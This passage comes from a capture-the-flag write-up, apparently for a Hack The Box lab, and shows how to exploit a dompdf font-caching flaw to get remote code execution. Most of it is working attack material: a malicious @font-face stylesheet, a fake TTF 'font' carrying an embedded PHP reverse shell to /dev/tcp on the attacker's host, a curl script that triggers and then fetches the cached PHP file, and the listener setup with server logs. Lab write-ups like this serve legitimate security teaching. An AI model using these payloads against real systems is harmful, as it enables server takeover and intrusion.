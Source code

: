 
The blog here has a more thorough explanation: [From XSS to RCE (dompdf 0day) | Positive Security](https://positive.security/blog/dompdf-rce)

With this in mind, let's serve up a dodgy font file in exploit.css:

```css
@font-face {
    font-family:'exploitfont2';
    src:url('http://10.10.14.15:8081/exploit_font.php');
    font-weight:'normal';
    font-style:'normal';
  }

```

Our `exploit_font.php` contains the following, complete with valid TTF font magic bytes and PHP with a call out to `system()` spawning a reverse shell back to my machine:

```
� dum1�cmap`�,glyf5sc��head�Q6�6hhea��($hmtxD
Lloca
Tmaxp\ nameD�|8dum2� -��-����
:83#5:08��_<�@�8�&۽
:8L��
:D
6				s
<?php system('bash -i >& /dev/tcp/10.10.14.15/3322 0>&1'); ?>
```

I wrote a basic bash script `exploit.sh` -- this sends a POST request initiating the html2pdf conversion with a link tag pointing at our `exploit.css` stylesheet above, which references our malicious 'font' containing PHP code.  Knowing our malicious font is cached and accessible on the server, we `curl` it -- where the URL is derived from the font name, and md5 sum of the URL above in the font face.

Here's the resulting 2 line script:

```bash
#!/usr/bin/env bash

curl -X POST -H "Content-Type: application/json" "http://prd.m.rendering-api.interface.htb/api/html2pdf" -d '{"html": "aaa<link rel=\"stylesheet\" property=\"stylesheet\" type=\"text/css\" href=\"http://10.10.14.15:8081/exploit.css\" >bbb"}' > out.pdf

curl --output font_out -v "http://prd.m.rendering-api.interface.htb/vendor/dompdf/dompdf/lib/fonts/exploitfont2_normal_$(echo -n 'http://10.10.14.15:8081/exploit_font.php' | md5sum | awk '{ print $1 }').php"
```

So, we run `python -m http.server 8081` locally to serve up `exploit.css` and `exploit_font.php`, a separate netcat listener with `nc -lvnp 3322`.  Then we run `./exploit.sh`.  Our HTTP server shows that the target fetches the CSS and our 'font':

```bash
$python -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.10.11.200 - - [01/Apr/2023 18:28:13] "GET /exploit.css HTTP/1.0" 200 -
10.10.11.200 - - [01/Apr/2023 18:28:13] "GET /exploit_font.php HTTP/1.0" 200 -
```

